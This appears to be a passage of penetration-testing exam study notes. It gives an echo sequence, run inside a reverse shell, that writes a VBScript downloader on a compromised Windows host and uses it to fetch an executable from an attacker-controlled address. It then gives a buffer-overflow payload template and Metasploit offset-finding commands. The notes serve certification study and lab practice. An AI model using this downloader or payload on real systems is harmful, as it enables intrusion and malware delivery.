 When FTP/TFTP fails you, this wget script in VBS was the go to on Windows machines.

# In reverse shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# Execute
cscript wget.vbs http://10.10.10.10/file.exe file.exe

Buffer Overflow

Offensive Security did a fantastic job in explaining Buffer Overflows, It is hard at first but the more you do it the better you understand. I had re-read the buffer overflow section multiple times and ensured I knew how to do it with my eyes closed in preparation for the exam. Triple check the bad characters, don’t just look at the structure and actually step through each character one by one would be the best advice for the exam.

# Payload
payload = "\x41" * <length> + <ret_address> + "\x90" * 16 + <shellcode> + "\x43" * <remaining_length>

# Pattern create
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

# Pattern offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q <address>
